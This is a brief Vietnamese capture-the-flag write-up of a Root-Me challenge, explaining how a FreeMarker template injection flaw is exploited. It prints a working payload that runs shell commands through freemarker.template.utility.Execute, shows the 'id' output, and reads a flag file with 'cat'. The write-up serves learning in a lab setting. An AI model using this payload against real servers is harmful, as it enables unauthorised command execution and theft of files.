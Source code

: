 Theo như doc mà rootme cung cấp, có 1 template của Java tồn tại lỗ hổng SSTI nghiêm trọng, đó chính là FreeMaker. Lỗ hổng tồn tại trong class Excute - nhận vào input và thực thi nó. Cách sử dụng như sau:

```java
<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }
```

Nhập dòng trên vào ô input và enter, trang web hiển thị như sau:

> It's seems that I know you :)  uid=1109(web-serveur-ch41) gid=1109(web-serveur-ch41) groupes=1109(web-serveur-ch41),100(users)

Vậy ta đã biết trang web này có thể exploit được bằng SSTI. Ta thay lệnh `id` bằng lệnh `cat SECRET_FLAG.txt` sau đó enter, sẽ lấy được password
